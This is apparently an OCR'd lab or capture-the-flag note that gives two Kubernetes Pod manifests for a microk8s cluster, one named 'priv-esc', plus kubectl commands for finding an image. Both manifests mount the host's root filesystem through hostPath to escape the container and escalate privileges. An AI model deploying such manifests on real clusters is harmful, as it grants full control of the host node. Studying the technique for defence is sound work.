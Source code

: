 # host.yaml
we need the correct image name, which can be found from  `microk8s.kubectl get deployments -o wide` or

`microk8s.kubectl get node -o yaml`

```text-plain
apiVersion: v1
kind: Pod
metadata:
  name: host
spec:
  containers:
  - image: docker.io/library/nginx@sha256:6d75c99af15565a301e48297fa2d121e15d80ad526f8369c526324f0f7ccb750
    name: host
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    volumeMounts:
    - mountPath: /host
      name: host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

```text-plain
apiVersion: v1
kind: Pod
metadata:
  name: priv-esc
spec:
  containers:
  - name: shell
    image: localhost:32000/bsnginx
    command:
      - "/bin/bash"
      - "-c"
      - "sleep 10000"
    volumeMounts:
      - name: root
        mountPath: /mnt/root
  volumes:
  - name: root
    hostPath:
      path: /
      type: Directory
```
